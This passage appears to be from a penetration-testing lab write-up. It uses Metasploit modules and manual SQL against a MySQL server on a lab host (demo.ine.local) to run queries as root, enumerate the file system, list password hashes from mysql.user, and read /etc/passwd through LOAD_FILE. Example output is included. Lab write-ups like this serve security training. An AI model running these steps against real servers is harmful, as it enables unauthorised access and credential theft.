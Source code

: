 ```bash
# === PHASE 6: DIRECT SQL EXECUTION ===
use auxiliary/admin/mysql/mysql_sql
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```
**Interactive SQL Session:**
```
[*] 192.89.45.3:3306 - Sending statement: 'select version()'...
[*] 192.89.45.3:3306 - | 5.5.61-0ubuntu0.14.04.1 |
[*] 192.89.45.3:3306 - Command completed successfully.
```

**Manual Database Enumeration Commands:**
```sql
-- Show all databases
SHOW DATABASES;

-- Display current user privileges
SHOW GRANTS FOR CURRENT_USER();

-- List all user accounts
SELECT host, user, password FROM mysql.user;

-- Show database file locations
SELECT @@datadir;

-- Test file read capabilities
SELECT LOAD_FILE('/etc/passwd');
```

### 📂 Example 4: File System Reconnaissance
**Scenario**: Testing file system access and write permissions

```bash
# === PHASE 7: FILE SYSTEM ENUMERATION ===
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```
**Expected Output (Key Findings):**
```
[*] 192.89.45.3:3306 - Login...
[+] 192.89.45.3:3306 MySQL - Logged in to '' with 'root':'twinkle'
[*] 192.89.45.3:3306 MySQL - querying with 'SELECT * FROM information_schema.TABLES WHERE TABLE_SCHEMA = 'mysql' AND TABLE_NAME = 'user';'
[+] 192.89.45.3:3306 - 192.89.45.3:3306 MySQL - Table doesn't exist so creating it.
[+] 192.89.45.3:3306 - 192.89.45.3:3306 MySQL - querying with 'CREATE TABLE tqTVyWoQ (brute int);'
[+] 192.89.45.3:3306 - /tmp is a directory and exists
[+] 192.89.45.3:3306 - /etc/passwd is a file and exists
[+] 192.89.45.3:3306 - /etc/shadow does not exist
[+] 192.89.45.3:3306 - /root is a directory and exists
[+] 192.89.45.3:3306 - /home is a directory and exists
[+] 192.89.45.3:3306 - /usr/share is a directory and exists
[+] 192.89.45.3:3306 - /var/www/html does not exist
```
